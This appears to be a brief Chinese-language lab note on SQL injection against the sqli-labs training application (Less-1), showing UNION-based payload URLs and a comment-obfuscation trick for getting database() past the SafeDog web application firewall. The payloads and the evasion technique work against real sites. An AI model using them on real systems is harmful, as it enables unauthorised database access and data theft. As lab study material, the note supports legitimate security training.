 #### UNION 查询

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,2,3%23v
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608173625895.png" alt="image-20230608173625895" style="zoom:50%;" />

#### 查看当前数据库

这里可以看到被安全狗防御了，问题就出在`dataase()`身上

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,database(),3%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608173708699.png" alt="image-20230608173708699" style="zoom:33%;" />

将注释符往database()里面放进去，成功绕过！

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,database(/*//--/*/),3%23
```
